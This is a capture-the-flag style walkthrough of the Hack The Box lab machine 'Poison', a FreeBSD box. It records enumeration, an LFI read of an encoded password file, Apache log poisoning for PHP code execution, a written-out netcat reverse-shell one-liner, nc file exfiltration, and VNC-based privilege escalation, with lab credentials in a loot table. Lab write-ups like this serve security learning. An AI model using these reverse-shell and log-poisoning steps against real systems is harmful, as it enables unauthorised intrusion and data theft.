 # Loot

## Box Info
- Name : Poison
- IP : 10.10.10.84
- Level : Medium

## Creds

| Service | Username | Password | Description |
| --- | --- | --- | ---| 
| SSH Login | charix  | Charix!2#4%6&8(0 | Found in pwdbackup.txt |
| VNC Login | Port - 5901  | secret (file from secret.zip) | Found in /home/charix |
# Enumeration

## Nmap

- Quick Scan
```bash
sudo nmap --max-retries 0 -p- 10.10.10.84 -oN nmap/quick_scan
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 05:41 EDT
Warning: 10.10.10.84 giving up on port because retransmission cap hit (0).
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 27.62% done; ETC: 05:42 (0:01:08 remaining)
Nmap scan report for 10.10.10.84
Host is up (0.18s latency).
Not shown: 54329 filtered ports, 11204 closed ports 
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 61.13 seconds

```
- Enumerate ports
```bash
grep open nmap/quick_scan | awk -F/ '{print $1}' ORS=','                                     130 ↵
22,80,
```
- Custom Scripts and version enumeration
```bash
sudo nmap -sC -sV -p 22,80 -oA nmap/targeted_scan 10.10.10.84
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 05:46 EDT
Nmap scan report for 10.10.10.84
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.88 seconds

```

**Quick Glance**
-  PHP website
-  Free BSD as OS

# Attack Surface

## Website

#### Method 1
![[Pasted image 20210408090619.png]]
- Here we can see some files that need to be tested.
- We can see from bros, there can be LFI in file parameter. Interestingly, there is also a file called pwdbackup.txt.
![[Pasted image 20210408090751.png]].
- Going to that file
![[Pasted image 20210408090841.png]]

- Copy that text and run `base64 -d` 13 times on it. We get a password.
- Use LFI to check for /etc/passwd
![[Pasted image 20210408090957.png]]
- The password most likely seems for charix. Using ssh, we can login as charix and cat out the user.txt
```bash
ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Thu Apr  8 12:02:58 2021 from 10.10.14.15
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
To see the IP addresses currently set on your active interfaces, type
"ifconfig -u".
                -- Dru <genesis@istar.ca>
charix@Poison:~ % id ; ls
uid=1001(charix) gid=1001(charix) groups=1001(charix)
lin_log         linpeas.sh      secret          secret.zip      user.txt
charix@Poison:~ % 

```

#### Method 2 : Log Poisoning

- We can check through the file parameter, whether we can read the apache access logs. Quick google:
- ![[Pasted image 20210408103144.png]]
- We can change it to httpd-access.log
- We can make a requests by changing the User-Agent (using burp), as it is not being changed. We can test whether PHP code is being executed by trying.
	- `Hello`, `"Hello"`, `'Hello'`
- We can see that "Hello" is being escaped by backslashes, therefore we need to be sure to use single-quotes in the user-agent, or the PHP code might not execute
![[Pasted image 20210408135136.png]]
- We can get PHP code execution, by passing the desired command to sad parameter
- ![[Pasted image 20210408135323.png]]
- ![[Pasted image 20210408135309.png]]
- Use `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 9001 >/tmp/f` to get a revshell and we can use the same pwdbackup.txt to elevate privileges to charix
 
# Privilege Escalation

## root
- First copy the secret.zip from the box to the local machine `cat secret.zip | nc 10.10.14.15 9001` on the remote machine while running `nc -lnvp 9001 > secret.zip`.
- Extract secret.zip using the password for charix

- Running ps aux, we can see root is running a  vnc server.
- ![[Pasted image 20210408101125.png]]
-  We can check netstat using `netstat -anlp tcp` to see that there can be two ports 5901 and 5801.We can use wget to check the headers from both the ports. Port 5901 seems like it.
- ![[Pasted image 20210408101108.png]]
- We can use ssh to tunnel to the box and configure it to port 5901. `ssh -L5901:127.0.0.1:5901 charix@10.10.10.84`, this way when we ping our port 5901, we are tunneling. This is also done because the server is running locally and we can't connect to it remotely.
- Now connect to the vncserver using vncviewer we are asked to authenticate
```bash
╭─norman@kali ~/Hack-The-Box/machines/poison ‹main*› 
╰─$ vncviewer 127.0.0.1:5901
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
```
- We can use the secret file got from secret.zip as the password file, and get the root shell.
- ![[Pasted image 20210408101717.png]]
- ![[Pasted image 20210408101705.png]]